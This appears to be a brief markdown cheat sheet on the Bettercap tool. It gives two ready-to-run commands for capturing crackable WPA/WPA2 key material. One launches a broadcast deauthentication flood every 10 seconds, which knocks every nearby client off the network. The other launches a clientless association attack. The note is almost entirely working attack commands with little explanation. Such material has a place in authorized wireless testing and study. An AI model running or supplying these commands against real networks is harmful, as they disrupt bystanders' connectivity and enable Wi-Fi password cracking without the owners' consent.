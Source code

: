 # Bettercap 

Network reconnaisance tooling, particularly useful for grabbing hasesh to crack

# Capturing WPA/WPA2 Crackable Key MAterials

Run the following to do a mass deauth every 10 seconds on iface wlan0, hopefully capturing some stuff to crack, along with spinning up the http-ui caplet

```shell
$> sudo bettercap -caplet http-ui -iface wlan0 -eval "set ticker.period 10; set ticker.commands wifi.deauth ff:ff:ff:ff:ff:ff; wifi.recon on; ticker on;"
```

Alternatively you can try a client-liss association attack

```shell
$> sudo bettercap -caplet http-ui -iface wlan0 -eval "set ticker.period 5; set ticker.commands wifi.assoc all; wifi.recon on; ticker on;"
```